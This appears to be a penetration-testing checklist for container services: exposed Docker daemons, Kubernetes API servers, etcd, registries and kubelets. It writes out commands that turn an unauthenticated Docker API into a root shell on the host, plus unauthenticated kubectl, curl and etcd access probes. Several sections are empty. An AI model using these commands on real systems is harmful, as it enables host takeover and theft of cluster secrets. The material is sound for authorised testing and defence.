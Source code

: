 # External Attacker Checklist

External attackers are typically looking for listening services. The list below is likely container related service ports and notes on testing/attacking them.

## 2375/TCP - Docker

This is the default insecure Docker port. It's an HTTP REST API, and usually access results in root on the host.

### Testing with docker CLI

The easiest way to attack this is just use the docker CLI.

* `docker run -H tcp://[IP]:2375 info` - This will confirm access and return some information about the host
* `docker run -ti --privileged --net=host --pid=host --ipc=host --volume /:/host busybox chroot /host` - From [this](https://zwischenzugs.com/2015/06/24/the-most-pointless-docker-command-ever/) post. This will drop you into a root shell on the host.

## 2376/TCP - Docker

This is the default port for the Docker daemon where it requires credentials (client certificate), so you're unlikely to get far without that. If you do have the certificate and key for access :-

* `docker --tlsverify --tlscacert=ca.pem --tlscert=cert.pem --tlskey=key.pem -H=[IP]:2376 info` - format for the info command to confirm access.
* `docker --tlsverify --tlscacert=ca.pem --tlscert=cert.pem --tlskey=key.pem -H=[IP]:2376 run -ti --privileged --net=host --pid=host --ipc=host --volume /:/host busybox chroot /host` - root on the host

## 443/TCP, 6443/TCP, 8443/TCP - Kubernetes API server

Typical ports for the Kubernetes API server.

### Testing for access

Access to the `/version` endpoint will often work without valid credentials (using curl), as this is made available to unauthenticated users.

* `kubectl --insecure-skip-tls-verify --username=system:unauthenticated -shttps://[IP]:[PORT] version` - Test for access with kubectl
* `curl -k https://[IP]:[PORT]/version` - Test for access with curl

### Checking permissions

It's possible that unauthenticated users have been provided more access. You can check what permissions you have with

* `kubectl --insecure-skip-tls-verify --username=system:unauthenticated -shttps://[IP]:[PORT] auth can-i --list`

### Getting privileged access to cluster nodes

In the event that you have create pods access without authentication, see [attacker manifests](attacker_manifests.md) for useful approaches.

## 2379/TCP - etcd

The authentication model used by etcd, when supporting a Kubernetes cluster, is relatively straightforward. It uses client certificate authentication where **any** certificate issued by it's trusted CA will provide full access to all data. In terms of attacks, there are two options unauthenticated access and authenticated acces.

### Unauthenticated Access

A good general test for this is to use curl to access the `/version` endpoint. Although most endpoints don't respond well to curl in etcdv3, this one will and it'll tell you whether unauthenticated access is possible or not.

```bash
curl [IP]:2379/version
```

If that returns version information, it's likely you can get unauthenticated access to the database. A good first step is to drop all the keys in the database, using etcdctl. First you need to set this environment variable so that etcdctl knows it's talking to a v3 server.

```bash
export ETCDCTL_API=3
```





## 5000/TCP - Docker Registry

Generally the goal of attacking a Docker registry is not to compromise the service itself, but to gain access to either read sensitive information stored in container images and/or modify stored container images.

## 10250/TCP - kubelet

## 10255/TCP - kubelet read-only


